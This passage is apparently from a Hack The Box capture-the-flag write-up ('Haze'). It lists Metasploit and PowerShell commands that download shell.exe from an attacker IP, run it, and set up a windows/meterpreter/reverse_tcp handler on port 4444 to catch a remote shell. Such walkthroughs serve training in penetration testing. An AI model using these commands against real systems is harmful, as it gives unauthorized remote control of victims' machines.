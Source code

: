 ```bash
sessions -i 1
```

```bash
mkdir C:\Temp
```

```bash
iwr http://10.10.xx.xx:8000/shell.exe -OutFile shell.exe
```

```bash
.\shell.exe
```

Do ctrl+z → y
Setup your msfconsole again for the meterpreter session

```bash
set payload windows/meterpreter/reverse_tcp
set LHOST 10.10.xx.xx
set LPORT 4444
exploit -j
```

![Screenshot 2025-03-31 at 10.10.41 PM.png](/assets/Images/HTB_Haze/Screenshot_2025-03-31_at_10.10.41_PM.png)
